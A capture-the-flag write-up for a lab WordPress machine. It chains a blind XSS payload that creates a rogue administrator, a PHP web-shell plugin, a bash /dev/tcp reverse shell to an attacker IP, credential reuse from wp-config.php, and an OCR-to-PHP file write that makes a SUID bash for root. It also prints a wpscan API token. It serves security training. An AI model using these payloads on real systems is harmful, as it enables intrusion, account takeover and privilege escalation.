

# Attack Chain

```
└─► nmap → WordPress (443) + filtered 8001
	└─► wpscan → uploads listing + users (walter, jake, admin)
		└─► voice-message.wav → jake creds (dead end)
			└─► main.js → contact form unsanitized → blind XSS
				└─► admin bot review → x.js → POST createuser → WP admin
					└─► malicious plugin → RCE (www-data) → reverse shell
						└─► wp-config.php → walter creds (reused) → SSH → user.txt
							└─► ss/ps → php -S :8001 -t /root/ocr4 (root)
								└─► port forward + basic auth → OCR app
									└─► OCR image → PHP payload → SUID bash → root.txt
```

# Summary

- [Enumeration](#enumeration)
- [Website](#website)
	- [Team](#team)
	- [Directory fuzzing](#directory-fuzzing)
- [Wordpress](#wordpress)
	- [Uploads directory](#uploads-directory)
	- [webagency theme](#webagency-theme)
	- [XSS test](#xss-test)
	- [Create administrator account](#create-administrator-account)
	- [Upload Malicious plugin](#upload-malicious-plugin)
	- [Shell as www-data](#shell-as-www-data)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)
	- [Listening ports](#listening-ports)
	- [Port Forwarding](#port-forwarding)
	- [Create an image with our php payload inside](#create-an-image-with-our-php-payload-inside)
	- [Capture session's cookies](#capture-sessions-cookies)
	- [OCR_ID value](#ocr_id-value)
	- [Upload evil file](#upload-evil-file)
	- [Request our uploaded file](#request-our-uploaded-file)
	- [Shell as root](#shell-as-root)

---
# Enumeration

We can start by scanning open ports on the target.

```
nmap -sVC 10.129.*.*
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-06 03:08 EDT
Nmap scan report for 10.129.*.*
Host is up (0.0074s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 27:c3:7d:10:17:3b:dc:29:cf:05:83:33:ab:28:d0:38 (ECDSA)
|_  256 a3:46:f2:d7:1f:43:41:31:35:a2:88:31:ff:2a:0b:22 (ED25519)
80/tcp   filtered http
443/tcp  open     ssl/http    Apache httpd 2.4.58 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Agency LLC
| ssl-cert: Subject: commonName=makesense.htb
| Not valid before: 2026-05-29T16:37:29
|_Not valid after:  2126-05-05T16:37:29
| tls-alpn: 
|_  http/1.1
|_http-generator: WordPress 7.0
|_http-trane-info: Problem with XML parsing of /evox/about
8001/tcp filtered vcom-tunnel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> [!NOTE]
> **Observations**
> - 4 ports open
> - 80 and 8001 filtered and can't be accessed
> - `makesense.htb` in `commonName` entry.

We can edit our `/etc/hosts` file following our discovery.

```
echo '10.129.27.152 makesense.htb'| sudo tee -a /etc/hosts
10.129.27.152 makesense.htb
```

# Website

Let's inspect the website on port 443 since it's the only port interesting for now.


### Team

It's a classic company website, we can find the team along with their names.


We can note the names in case we need it later.

### Directory fuzzing

Let's use `ffuf` to uncover hidden directories.

```
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'https://10.129.27.152/FUZZ' -fw 1

<SNIP>

wp-includes             [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 7ms]
wp-admin                [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 9ms]
scripts                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 9ms]
wp-content              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 11ms]
javascript              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 13ms]
```

We have several entries that match the **Wordpress** structure.

# Wordpress

Since we are facing a website using **Wordpress**, we can switch tool and use `wpscan` instead.
We can retrieve a API key on their website.

```
wpscan --no-banner --url https://makesense.htb --disable-tls-checks --api-token azCGu6s6cgOczduxCNMZ587x2NcgQRiFJyvtCWbNg5U -eu

<SNIP>

[+] Upload directory has listing enabled: https://makesense.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

<SNIP>

[+] WordPress theme in use: webagency
 | Location: https://makesense.htb/wp-content/themes/webagency/
 | Style URL: https://makesense.htb/wp-content/themes/webagency/style.css?ver=7.0

<SNIP>

[i] User(s) Identified:

[+] walter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jake
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

> [!NOTE]
> **Scan analysis**
> - Directory listing enable on `/wp-content/uploads/`
> - Theme in use : `webagency`
> - 3 users identified : walter, admin, jake

### Uploads directory

In the uploads directory, we can find an audio file.


Using a transcriptor, we have the following message :

```
Hey this is jake, i'm testing the new feature and it's exciting, i'm going there oops logging hmmm jake Clear Light Nice Smooth 4923
```

Trying the password `Clear Light Nice Smooth 4923` for the user `Jake` works but this access can't be leveraged to gain a foothold on the target.

### webagency theme

It looks like there is some kind of Transcription being used to summarize input in the contact form.
Let's look at the files inside the `webagency` theme.

The `README.txt` contains the following, which confirms our assumptions.


Looking at the javascript, we can find the following inside the `main.js` file.

**main.js**
```
const formData = {
            action: 'submit_contact_form',
            nonce: webagency_ajax.nonce,
            name: name,
            email: email,
            phone: phone,
            message: message
        };

        $.ajax({
            url: webagency_ajax.ajax_url,
            type: 'POST',
            data: formData,
            beforeSend: function () {
                $('#contactForm button[type="submit"]').prop('disabled', true).text('Sending...');
            },
            success: function (response) {
                if (response.success) {
                    currentPostId = response.data.post_id;
                    $('#formMessage')
                        .removeClass('hidden bg-red-100 text-red-700')
                        .addClass('bg-green-100 text-green-700 p-4 rounded-lg')
                        .text(response.data.message);
                    $('#contactForm')[0].reset();

                    // If message is long enough, process summarization client-side
                    if (message && message.length > 20) {
                        processTextSubmission(message, currentPostId);
                    }

                } else {
                    $('#formMessage')
                        .removeClass('hidden bg-green-100 text-green-700')
                        .addClass('bg-red-100 text-red-700 p-4 rounded-lg')
                        .text(response.data.message);
                }
            },
            error: function () {
                $('#formMessage')
                    .removeClass('hidden bg-green-100 text-green-700')
                    .addClass('bg-red-100 text-red-700 p-4 rounded-lg')
                    .text('An error occurred. Please try again.');
            },
            complete: function () {
                $('#contactForm button[type="submit"]').prop('disabled', false).text('Send Message');
            }
        });
    });
```

We can see that if our message is longer than 20 characters, it will process a text summarization that won't be sanitized..

### XSS test

Knowing that information and that a javascript file will process our inputs, we can try to perform an XSS attack here.

Let's try it and see if it works. We put the following payload in the **message** field.

```

```

This will fetch the `x.js` file on our machine. If the file is being reviewed, we should get a hit on our listener.

```
php -S 10.10.*.*:8000
[Mon Jul  6 04:33:15 2026] PHP 8.4.16 Development Server (http://10.10.*.*:8000) started
[Mon Jul  6 04:33:30 2026] 10.129.27.152:39658 Accepted
[Mon Jul  6 04:33:30 2026] 10.129.27.152:39658 [200]: GET /x.js
[Mon Jul  6 04:33:30 2026] 10.129.27.152:39658 Closing
```

That's indeed the case.

### Create administrator account

Since XSS works on the target, we can craft a malicious file that will create a new **Wordpress** administrator when reviewed by an admin.

Here is the file hosted on our machine : 

**x.js**
```
(async () => {
  const b = location.origin;                       // https://makesense.htb
  const ping = (t) => new Image().src =
    'http://10.10.*.*:8000/hit?' + encodeURIComponent(t);

  ping('start on ' + location.pathname);           // 1: running on the current page

  try {
    // --- Retrieve the user creation form ---
    const res = await fetch(b + '/wp-admin/user-new.php', { credentials: 'include' });
    ping('fetch status ' + res.status);            // 2: 200=admin, 302/403=not admin

    const html = await res.text();
    ping('html len ' + html.length + ' hasNonce ' + html.includes('_wpnonce_create-user'));

    const m = html.match(/name="_wpnonce_create-user"\s+value="([a-f0-9]+)"/);
    ping('nonce ' + (m ? m[1] : 'NOMATCH'));        // 3: nonce or NOMATCH
    if (!m) return;

    // --- POST admin creation ---
    const p = new URLSearchParams();
    p.append('action', 'createuser');
    p.append('_wpnonce_create-user', m[1]);
    p.append('user_login', 'hacked');
    p.append('email', 'hacked@makesense.htb');
    p.append('pass1', 'Hacked123!');
    p.append('pass2', 'Hacked123!');
    p.append('pass1-text', 'Hacked123!');
    p.append('role', 'administrator');
    p.append('createuser', 'Add New User');

    const r = await fetch(b + '/wp-admin/user-new.php', {
      method: 'POST',
      credentials: 'include',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: p.toString()
    });
    ping('create status ' + r.status);              // 4: 200/302 = created

  } catch (e) {
    ping('ERR ' + e.message);                        // 5: error message
  }
})();
```

Since we already put our payload in the contact form, it still will be reviewed. 
When we see multiple entries in our listener, we should be able to login on **Wordpress** as administrator.


The XSS attack worked.

### Upload Malicious plugin

Now, to obtain **Command Execution** on the target, we can upload a malicious plugin that will contain PHP code allowing us to run commands on the system.

First we create a directory that will contain our payload.

```
mkdir plugin
```

Then we write the following PHP code to a file.

**plugin.php**
```
<?php
/*
Plugin Name: shellplugin
*/
if (isset($_REQUEST['cmd'])) { system($_REQUEST['cmd']); die(); }
```

And we zip it.

```
zip -r plugin.zip plugin
```

Now we navigate to Plugins > Add plugin > Select our file > Activate

And we should be able to access it from that URL.



We run command as `www-data`.

### Shell as www-data

We have a **Remote Command Execution** as `www-data`, let's get a reverse shell on the target.

We will use the following payload :

```
bash -c 'bash -i >& /dev/tcp/10.10.*.*/6767 0>&1'
```

And double url encode it.

```
bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E*%2E*%2F6767%200%3E%261%27
```

After making the request, we should get a callback on our listener.

```
penelope -i tun0 -p 6767
[+] Listening for reverse shells on 10.10.*.*:6767 

www-data@makesense:/var/www/html$
```

# Lateral Movement

We have a foothold on the target, let's look for a way to pivot to another user.

Enumerating the **Wordpress** configuration file, we find the following.

```
www-data@makesense:/var/www/html$ cat wp-config.php
<?php
// SQLite database configuration
define( 'DB_DIR', __DIR__ . '/wp-content/database/' );
define( 'DB_FILE', '.ht.sqlite' );

// Dummy MySQL settings (required but not used with SQLite)
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'walter' );
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );

<SNIP>
```

Let's try the credentials over SSH.

```
ssh walter@makesense.htb
walter@makesense.htb's password: JbhHDAEgXvri3!

walter@makesense:~$
```

We have a shell as `walter`. We can get the user flag from here.

# Privilege Escalation

We can now search for Privilege Escalation on the target.
### Listening ports

Looking at the listening port reveals the port 8001, that was filtered before.

```
walter@makesense:~$ ss -tlnp

State          Recv-Q        Send-Q           Local Address:Port         
LISTEN            0                 4096                            127.0.0.1:8001     LISTEN            0                 511                                 0.0.0.0:80      LISTEN            0                 4096                                0.0.0.0:22      LISTEN            0                 4096                             127.0.0.54:53      LISTEN            0                 511                                0.0.0.0:443      LISTEN            0                 4096                          127.0.0.53%lo:53
```

And we can see that the service runs as `root`, and it's using PHP.

```
walter@makesense:~$ ps aux

<SNIP>

root        1403  0.0  0.7 228488 31604 ?        S    07:04   0:00 php -S 127.0.0.1:8001 -t /root/ocr4/

<SNIP>
```

### Port Forwarding

Let's forward the port to our machine using SSH.

```
ssh -L 8001:127.0.0.1:8001 walter@makesense.htb
```

We are prompted a login form, we can enter the credentials for `walter` to see if it works.


We successfully logged in.


Here we can see an application that will parse our draw inside plain text and that will be saved to a file.
Since the server is hosted by PHP, it should run any PHP code we put inside. So if we can create an image containing PHP code, we could leverage this as **Command Execution**.

### Create an image with our php payload inside

First we need to create an image with `convert` from **ImageMagick**

```
convert -size 1800x220 xc:white -font DejaVu-Sans-Mono -pointsize 40 -fill black \
  -gravity West -annotate +10+0 "<?php system('cp /bin/bash /tmp/evil && chmod 4755 /tmp/evil'); ?>" /tmp/p.png
```

We can check if our command is written as expected in the output.

```
curl -s -u 'walter:JbhHDAEgXvri3!' -X POST http://127.0.0.1:8001/ --data-urlencode "canvas_image=data:image/png;base64,$(base64 -w0 /tmp/p.png)" | grep -oP '(?<=<p class="output-text">).*'

&lt;?php system(&#039;cp /bin/bash /tmp/evil &amp;&amp; chmod 4755 /tmp/evil); ?&gt;
```

It looks fine.

### Capture session's cookies

Let's capture the session's cookies now so we don't have issues authenticating on the application and upload files.

```
curl -s -c cookies.txt -b cookies.txt -u 'walter:JbhHDAEgXvri3!' http://127.0.0.1:8001
```

### OCR_ID value

Now we need to retrieve the `ocr_id` value so the application remembers what text to write into a file.

```
OCRID=$(curl -s -c cookies.txt -b cookies.txt -u 'walter:JbhHDAEgXvri3!' -X POST http://127.0.0.1:8001/ \
--data-urlencode "canvas_image=data:image/png;base64,$(base64 -w0 /tmp/p.png)" \
| grep -oP 'name="ocr_id" value="\K[^"]+')
```


### Upload evil file

And we can upload our malicious file using the following command.

```
curl -s -c cookies.txt -b cookies.txt -u 'walter:JbhHDAEgXvri3!' -X POST http://127.0.0.1:8001/ \
  --data-urlencode "ocr_id=$OCRID" \
  --data-urlencode "filename=evil.php" \
  --data-urlencode "save_output=Save" | grep -oP 'Saved as:\s*\K\S+'

saved/evil.php</p>
```

### Request our uploaded file

All that's left is to call the file so it will be executed.

```
curl -s -c cookies.txt -b cookies.txt -u 'walter:JbhHDAEgXvri3!' "http://127.0.0.1:8001/saved/evil.php"
```

And we should see the malicious bash binary in `/tmp`.

```
walter@makesense:~$ ls -la /tmp/evil 
-rwsr-xr-x 1 root root 1446024 Jul  6 13:52 /tmp/evil
```

### Shell as root

We can now run the following command to get root privilege.

```
walter@makesense:~$ /tmp/evil -p
evil-5.2# id
uid=1000(walter) gid=1000(walter) euid=0(root) groups=1000(walter)
```


> [!TIP]
> **Machine Rooted**


